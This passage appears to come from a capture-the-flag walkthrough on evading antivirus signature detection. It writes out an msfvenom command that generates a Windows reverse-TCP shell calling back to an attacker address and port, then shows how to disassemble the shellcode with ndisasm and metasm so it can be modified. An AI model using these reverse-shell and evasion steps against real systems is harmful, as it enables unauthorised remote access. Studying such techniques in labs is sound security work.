 Bypassing step 2 is usually done by modifying the shellcode payload to introduce variation so that signature detection fails. However, this is a hit and miss game. It is possible to get the assembly from a `msfvenom` payload as so:

```bash
# generate payload again but in a raw format
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.17 \
         LPORT=6969 \
         -a x86 \
         -f raw \
         -o bubba.bin
# disassemble payload
ndisasm -b 32 -p intel bubba.bin | tr -s ' ' | awk -F ' ' '{$1=$2="";print $0}'
```

However, this version of the assembly is raw and has hard-coded offsets:

![ndisasm](./buff/ndisasm.png)

So modifying this assembly will require a manual re-compilation of these offsets or the shellcode wont work. Next try to get the symbolic representation of the assembly:

```bash
# find metasm ruby library used in metasploit
find / -iname metasm.rb 2>/dev/null
# set ruby library path to find this library
RUBYLIB=$RUBYLIB:/usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/metasm-1.0.4/
# get symbolic disassembly
ruby /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/metasm-1.0.4/samples/disassemble.rb \
  --cpu Ia32 bubba.bin
```

![metasm](./buff/metasm.png)

